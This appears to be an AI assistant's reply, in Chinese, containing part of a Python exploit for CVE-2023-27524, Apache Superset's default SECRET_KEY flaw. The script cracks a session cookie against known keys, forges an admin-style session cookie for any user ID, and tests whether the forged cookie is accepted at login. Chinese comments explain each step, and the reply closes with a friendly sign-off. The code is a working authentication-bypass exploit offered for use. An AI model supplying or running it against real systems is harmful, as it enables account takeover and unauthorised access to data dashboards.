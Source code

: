 ```python
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print("Failed to crack session cookie")
            return

        print(f"Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}")

        # 根据用户输入的ID参数（如果不是整数，则原样使用），用flask_unsign模块的sign函数来伪造一个新的session cookie，并打印出来。
        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({"_user_id": user_id, "user_id": user_id}, k)
        print(f"Forged session cookie for user {user_id}: {forged_cookie}")

        # 如果用户输入了验证登录的参数，则尝试使用伪造的session cookie访问目标URL的登录页面，并检查返回的状态码是否为302（表示重定向）。如果是，则打印出成功验证登录的信息。如果不是，则打印出失败验证登录的信息，并建议重新检查用户ID。如果发生异常，则打印出异常信息。
        if args.validate:
            validated = False
            try:
                headers["Cookie"] = f"session={forged_cookie}"
                print(
                    f"Sleeping {args.timeout} seconds before using forged cookie to account for time drift..."
                )
                sleep(args.timeout)
                resp = requests.get(
                    u, headers=headers, verify=False, timeout=30, allow_redirects=False
                )
                if resp.status_code == 302:
                    print(
                        f"Got 302 on login, forged cookie appears to have been accepted"
                    )
                    validated = True
                else:
                    print(
                        f"Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id."
                    )
            except Exception as e_inner:
                print(
                    f"Exception occurred while validating login: {e_inner}"
                )
```

希望这些信息对您有帮助。如果您还有其他问题，欢迎继续与我交流。😊
